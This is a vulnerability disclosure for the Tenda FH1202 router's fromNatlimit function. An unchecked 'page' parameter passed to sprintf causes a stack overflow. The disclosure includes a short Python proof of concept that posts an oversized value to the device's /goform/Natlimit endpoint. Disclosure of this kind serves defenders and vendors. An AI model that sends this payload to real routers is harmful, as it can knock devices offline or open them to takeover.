 # Tenda FH1202 fromNatlimit
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the fromNatlimit function.
### Vulnerability details
In function fromNatlimit line 10, it reads in a user-provided parameter `page`, and the variable is passed to the sprintf function without any length check, which may overflow the stack-based buffer s. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/4.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/Natlimit"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/6.png)
